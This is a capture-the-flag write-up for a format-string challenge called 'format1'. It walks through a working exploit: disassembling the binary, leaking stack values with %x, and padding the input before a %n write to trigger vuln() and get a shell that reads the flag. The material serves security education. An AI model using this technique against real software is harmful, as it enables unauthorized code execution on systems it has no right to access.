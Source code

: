 # 70 - Format

*Written by Michael Zhang and Sean Anderson*

## Problem

The function printf can do a lot of great things, but depends on how you use it. Try to exploit this very irresponsible use of printf.

Problem can be found at `/problems/format1` and source can be downloaded [here](format1.c).

## Hint

This line might interest you... `printf(argv[1]);`. What happens if no format arguments are provided?

## Solution

This program does not use printf correctly, using user input as a format string.  This allows the user to view and modify the stack of the program.  For example, to view some data on the stack, simply put a valid format string as the program's first argument:

```bash
$ ./format1 %x
1bc3be08$
```

At first glance, it seems that all printf can do is print data, however it can also write abitrary values using the `%n` format string.  From the man page:

>  The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument.  No argument is converted.

Therefore, all we need to do is write more than 9000 characters, and `vuln()` will execute.  To do this, we need to find out what pointer the program uses to refer to `key`.  First, lets load up get a disassembly with `objdump -d format1`

```
000000000040064e <main>:
  40064e:	55                   	push   %rbp
  40064f:	48 89 e5             	mov    %rsp,%rbp
  400652:	48 83 ec 20          	sub    $0x20,%rsp
  400656:	89 7d ec             	mov    %edi,-0x14(%rbp)
  400659:	48 89 75 e0          	mov    %rsi,-0x20(%rbp)
  40065d:	48 c7 45 f8 50 10 60 	movq   $0x601050,-0x8(%rbp)
  400664:	00 
  400665:	48 8b 45 e0          	mov    -0x20(%rbp),%rax
  400669:	48 83 c0 08          	add    $0x8,%rax
  40066d:	48 8b 00             	mov    (%rax),%rax
  400670:	48 89 c7             	mov    %rax,%rdi
  400673:	b8 00 00 00 00       	mov    $0x0,%eax
  400678:	e8 63 fe ff ff       	callq  4004e0 <printf@plt>
  40067d:	8b 05 cd 09 20 00    	mov    0x2009cd(%rip),%eax        # 601050 <__TMC_END__>
  400683:	3d 28 23 00 00       	cmp    $0x2328,%eax
  400688:	7e 0a                	jle    400694 <main+0x46>
  40068a:	b8 00 00 00 00       	mov    $0x0,%eax
  40068f:	e8 82 ff ff ff       	callq  400616 <vuln>
  400694:	b8 00 00 00 00       	mov    $0x0,%eax
  400699:	c9                   	leaveq 
  40069a:	c3                   	retq   
  40069b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
```
   
  We can see that in `<main+15>`, `0x601050` is stored onto the stack as a local variable.  Next, lets see where on the stack the local variable is when we run printf:
  
```
$ ./format1 %x-%x-%x-%x-%x-%x-%x-%x-%x-%x
42d3038-42d3050-4006a0-e1bdce80-e1bdce80-42d3038-400520-42d3030-601050-4006a0$ 
```

We can see that the pointer `601050` is the 9th value on the stack.  (In the competition it was the 7th, but this is a different compile).  Based on this information, the input of the program should be

```
$ ./format1 garbagedata%x%x%x%x%x%x%x%x%n
```

It is very tedious to type out over 9000 characters of garbage, so we will create a file with this data.  

```
$ for i in `seq 1 9000`; do echo -n "x"; done > ~/xs.txt
$ echo "%x%x%x%x%x%x%x%x%n" | cat ~/xs.txt - > ~/arg.txt
```

Now that we have the garbage, all we have to do is feed it into the program and get the flag.

```
$ xargs -a ~/arg.txt ./format1
xxxxxxxxxxxxxxxxxxxxxxxx ... xxxxxxxx$ whoami
format1
$ cat flag.txt
theflag
$ exit
```
